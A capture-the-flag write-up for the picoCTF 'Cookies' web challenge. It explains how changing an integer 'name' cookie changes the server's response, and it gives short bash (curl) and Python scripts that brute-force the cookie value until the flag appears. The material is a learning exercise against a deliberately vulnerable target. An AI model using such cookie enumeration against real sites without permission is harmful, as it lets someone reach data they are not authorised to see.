

---
tags:
  - reverse-engineering
points: 40 points
---

[<-- Web Exploitation Write-ups](../writeup-list.md)

# Cookies

## Write-up
##### Concept Coverage :
This challenge is an introduction to the concepts of [web HTTP cookies](https://www.cloudflare.com/learning/privacy/what-are-cookies/) . 

##### Following are the steps for the challenge: 
1. We are given the link to URL hosted website which takes type of cookie as an input and responds with a text.
    
    
    
2. Since the name of the challenge is `Cookies` lets take a look at the website's cookie. We notice that there is only one cookies
    
    
    
3. Lets input the sample text `snickerdoodle` . As soon as we click on `Search` button we see that the cookie value gets updated. Upon searching for other types of cookies I selected the following to try `Chocolate Chip`, `Butter` and `Gingerbread` . I noticed we get different value in the `name` Web cookie for each of them
    
    
    
    
    
    
    
4. From the above observation we can assume that each integer value in `name` web cookie is tied to a different output. It is possible we have our flag as one of the value.
   
5. So I wrote a bash script to iterate through the different value for `name` web cookie and see if I can find anything with `picoCTF{` or `cookies!` pattern since thats the line that gives the output. At the time of solving I ran it from `0` to `100` but since I have solved it I have restricted it to the sample space of `10` to `30` (This was at the time of writing but this might change and you might have to use a different range).
    
    
    
    Here is the `find-flag.sh` used in above screenshot :
   
```bash
#! /bin/bash
for var in {10..30}
do
  echo "Trying name=$var"
  curl -s "http://mercury.picoctf.net:21485/check" --cookie "name=$var" | grep -E "cookies!|picoCTF{" 
done
```

6. You can leverage any program to cycle through the value or even you can do it manually through browser by updating value and refreshing the page. I have attached the python code as well.
   
```python 
import requests
for i in range(25):
    cookie = 'name={}'.format(i)
    headers = {'Cookie':cookie}
    r = requests.get('http://mercury.picoctf.net:21485/check', headers=headers)
    if ('picoCTF' in r.text):
        print(r.text)
        print("Flag found in web cookie name={}".format(i))
        break

```
